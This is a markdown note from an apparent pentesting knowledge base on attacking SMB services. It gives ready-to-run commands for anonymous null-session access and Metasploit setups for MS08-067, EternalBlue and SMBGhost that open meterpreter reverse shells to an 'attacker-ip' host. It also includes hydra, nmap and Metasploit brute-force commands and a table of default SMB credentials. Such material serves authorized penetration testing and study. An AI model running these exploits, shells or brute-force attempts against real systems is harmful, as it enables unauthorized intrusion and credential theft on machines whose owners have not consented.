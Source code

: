 ```yaml
---
id: Exploitation
aliases: []
tags:
  - Networking/Services/SMB/Exploitation
links: "[[SMB]]"
---
```


# Exploitation

## Checklist

> [!todo]

- [ ] [[Enumeration#RPCclient|RPCclient]]
    - [ ] [[Enumeration#Connect|Connect]]
- [ ] [[Usage#Smbclient|Smbclient]]
    - [ ] [[Usage#Connect|Connect]]
        - [ ] [[Usage#Linux|Linux]]
        - [ ] [[Usage#Windows|Windows]]
    - [ ] [[Usage#SMB Actions|Enumeration]]

- [ ] [[Exploitation#Metasploit|Metasploit]]
- [ ] [[Exploitation#Common Credentials|Common Credentials]]
- [ ] [[Exploitation#Brute Force|Brute Force]]
- [ ] [[Exploitation#EternalBlue|EternalBlue]]


<!-- SMB Null Session {{{-->
## SMB Null Session

An [SMB Null Session](https://hackviser.com/tactics/pentesting/services/smb#smb-null-session)
refers to an unauthenticated connection to an SMB server

[[Enumeration#RPCclient|RPCclient]]

```sh
rpcclient -U "" <target_ip>
```

[[Usage#smbclient|smbclient]]

```sh
smbclient -L //<target_ip> -N
```

[[Enumeration#SMBmap|SMBmap]]

```sh
smbmap -H <target_ip> -u "" -p ""
```

<!-- }}} -->

<!-- IPC$ Share {{{-->
## IPC$ Share

Access to the
[IPC$](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-smb/index.html#ipc-share)
share can be obtained through an anonymous null session.

> [!todo]

[[Enumeration#Enum4Linux-ng|Enum4Linux-ng]] can be utilized to interact
with the exposed services via named pipes.

<!-- }}} -->

<!-- Metasploit {{{-->
## Metasploit

Search for exploits with Metasploit

```sh
msf> search type:exploit platform:windows target:2008 smb
searchsploit microsoft smb
```

### CVE Exploits

#### MS08-067 (Netapi)

```sh
use exploit/windows/smb/ms08_067_netapi
set RHOSTS target.com
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST attacker-ip
exploit
```

#### MS17-010 (EternalBlue)

```sh
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target.com
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST attacker-ip
exploit
```

#### SMBGhost (CVE-2020-0796)

```sh
use exploit/windows/smb/cve_2020_0796_smbghost
set RHOSTS target.com
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST attacker-ip
exploit
```

<!-- }}} -->

<!-- Brute Force {{{-->
## Brute Force

### Nmap

Brute force SMB login with [[Nmap]]'s
[smb-brute](https://nmap.org/nsedoc/scripts/smb-brute.html)

```sh
nmap --script smb-brute -p 445 <target_ip>
```

### Hydra

Brute force SMB login with [[Hydra]]

```sh
hydra -l <target_user> -P <passwords.txt> <target_ip> smb -t 1
```

```sh
hydra -l administrator -P <passwords.txt> smb://<target_ip>
```

### Metasploit

```sh
use auxiliary/scanner/smb/smb_login
set RHOSTS target.com
set USER_FILE /path/to/users.txt
set PASS_FILE /path/to/passwords.txt
set STOP_ON_SUCCESS true
exploit
```

<!-- }}} -->

<!-- Common Credentials {{{-->
## Common Credentials

> [!danger]-
>
> | Username             | Password                                |
> | -------------------- | --------------------------------------- |
> | (blank)              | (blank)                                 |
> | guest                | (blank)                                 |
> | Administrator, admin | (blank), password, administrator, admin |
> | arcserve             | arcserve, backup                        |
> | tivoli, tmersrvd     | tivoli, tmersrvd, admin                 |
> | backupexec, backup   | backupexec, backup, arcada              |
> | test, lab, demo      | password, test, lab, demo               |
<!-- }}} -->

<!-- EternalBlue {{{-->
## EternalBlue

Some SMB versions may be vulnerable to RCE exploits such as
[EternalBlue](https://www.avast.com/c-eternalblue).

Metasploit has several [modules](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)
for EternalBlue that can be used to validate and exploit the vulnerability.

```sh
nmap -A -p445 <target_ip>
```

<!-- }}} -->
